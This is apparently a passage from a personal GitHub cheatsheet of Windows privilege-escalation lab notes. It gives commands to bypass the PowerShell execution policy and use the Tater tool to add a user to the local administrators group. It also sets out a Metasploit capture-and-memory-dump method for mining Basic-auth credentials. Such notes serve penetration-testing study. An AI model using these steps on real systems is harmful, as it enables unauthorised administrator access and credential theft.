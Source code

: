 - Process-:
  - `powershell.exe -nop -ep bypass`
  - Import the `tater.ps1` script `Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
  - Execute a command with the imported module `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`

- Check if it worked by running `net localgroup administrators`

![image](https://github.com/user-attachments/assets/4e388732-fed2-4187-9eb1-af7b07b79824)

-------------------------

### Reference-:

- [Tater's script repo](https://github.com/Kevin-Robertson/Tater)

-------------------------

### Password Mining Escalation - Memory

- Open command prompt and type: msfconsole
- In Metasploit (msf > prompt) type: use auxiliary/server/capture/http_basic
- In Metasploit (msf > prompt) type: set uripath x
- In Metasploit (msf > prompt) type: run

![image](https://github.com/user-attachments/assets/e5a34e1c-9a09-4b5a-bdf9-8526c3df4d33)

- Load the basic http site on internet explorer `iexplore.exe`

![image](https://github.com/user-attachments/assets/3e29ed28-18ac-421b-8c52-ca2b035095a9)

- Go to taskmgr `taskmgr.exe` and create a dump

![image](https://github.com/user-attachments/assets/3a4e8821-5d2e-4fc8-9ed3-a45bbd234403)

- Copy the dump and grep for `Authorization: Basic`



### AD Cheatsheet

[HTB](https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide)

-------------------------

### Learning AD exploitation

-------------------------

### DNS setting in Network Configuration

![image](https://github.com/user-attachments/assets/0ed25f47-948d-401a-86c9-39939b5b519f)

Remove 8.8.8.8
